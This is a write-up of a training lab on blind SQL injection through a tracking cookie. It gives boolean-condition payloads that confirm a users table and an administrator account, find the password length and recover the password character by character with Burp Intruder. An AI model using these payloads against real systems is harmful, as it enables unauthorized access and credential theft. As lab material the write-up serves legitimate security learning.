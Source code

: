 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234766625-5e8e25d3-387c-40d5-88b6-2c348a1ecb6b.png)

## Solution :


Request looks like 

![image](https://user-images.githubusercontent.com/67383098/234805007-50a73456-c90f-4288-a3bc-2b559e87e890.png)


Query made looks something like -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
where trackingID - `g2w1yAddN9LlERl3` Cookievalue - `xdpiZNiyUyxtsAfDKlsfxYJldM3xW576`

TrackingID parameter is vulnerable. This is a blind SQL injection since response is not diplayed back. 

We can perform a SQL  injection on trackingID parameter , 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

there maybe 2 results - TrackinID does/does not exist.

- Condition(1=1) = **TRUE** -> **Welcome back message is shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=1-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810681-972b65ca-014f-4906-aca9-5201cebea564.png)


- Condition(1=2) = **FALSE** -> **Welcome back message is not shown**

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND 1=2-- '
```

![image](https://user-images.githubusercontent.com/67383098/234810921-cc49f440-dca7-4ba7-98ff-a5e4aa8e555d.png)


From the above responses, we can we can exploit the blind injection vulnerablitiy .

#### Conform that there is users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'x' FROM users LIMIT 1) = 'x' --
```

```
This SQL statement is checking whether the result of a subquery, which selects the string 'x' from the users table with a limit of 1, is equal to the string 'x'. The use of the AND operator indicates that this condition must be true for the overall query to return any results

If users table  is there, then the condition return x . It checks if returned 'x' = 'x'. Now condition is TRUE. So it conforms that users table is present.
```

![image](https://user-images.githubusercontent.com/67383098/234817409-11451756-02b5-4822-8916-17e4b53f1065.png)

We see a *Welcome back* msg , so it conforms that there is a users table.

#### Conform that username administrator is present in users table -

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](https://user-images.githubusercontent.com/67383098/234822414-89112d5b-720c-4688-b285-a9396bdbbd48.png)

We confirm that there is a user called `administrator` in the database.

#### Find the length password of administrator 

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

In particular, the subquery `(SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)` is attempting to retrieve the username of the administrator account whose password is longer than one character. If such an account exists in the database, the subquery will return the value "administrator".

The outer part of the string `AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator'` is then attempting to compare this value to the string literal 'administrator'. If the subquery returns the value 'administrator', then the entire expression will evaluate to true.

![image](https://user-images.githubusercontent.com/67383098/234827083-97984765-77d1-46be-b72b-09f9923ff647.png)

This confirms that the password is greater than 1

If we send the value as  50 ie `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>50)='a`  , we dont get any welcome message which means its not > 50  characters.

![image](https://user-images.githubusercontent.com/67383098/234827767-30367782-0bbe-4f38-8d2a-15635f1ae154.png)

Automate this -> 

1. Send request to Intruder
2. Add the password length part [> 1] 
3. Attack type - SNIPER
4. Payload type - Numbers
5. Give number range from 1-50

There is a difference in length at number 20, means that while checking `if length(password) > 20` it FAILS.

So the total **length of password is 20**.

#### Bruteforce the 20 character length password


Use the same query as above bu thios time we use the  **SUBSTRING** method `(SELECT SUBSTRING(password,1,1)` to get each letter of the password and loop through it  to check if 1st letter is =a/b/c ... & so on.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```
From the above command we take the 1st character of the password & check if it is = 'a'.
Check until the condition returns TRUE. Meaning the first character of password = letter/number at the right.

Automate this  -

1. Attack type - Cluster bomb
2. Payload 1 - length checking part [>1]
3. Payload 2 - character checking part ['a'--]
4. Payload 1 type - Numbers [range 1-20]
5. Payload 2 type - Bruteforcer [min & max length = 1]


In the filter settings, add the search item as `Welcome`

![image](https://user-images.githubusercontent.com/67383098/235315210-1a388b10-d201-4b58-8fa9-9c39254ea64f.png)

Now we get 20 differnt payloads which give us the **Welcome back** option.

![image](https://user-images.githubusercontent.com/67383098/235315270-0e3b7212-9292-4123-b8e9-00ab6f82efde.png)

Araange the payload number and write the payload2 alphabets (password characters) in order .

So the password is - `92fvq10oaxi0vjhxk7yw`


![image](https://user-images.githubusercontent.com/67383098/235318275-f500bdde-4543-4af3-8a5f-6b3d613052a4.png)





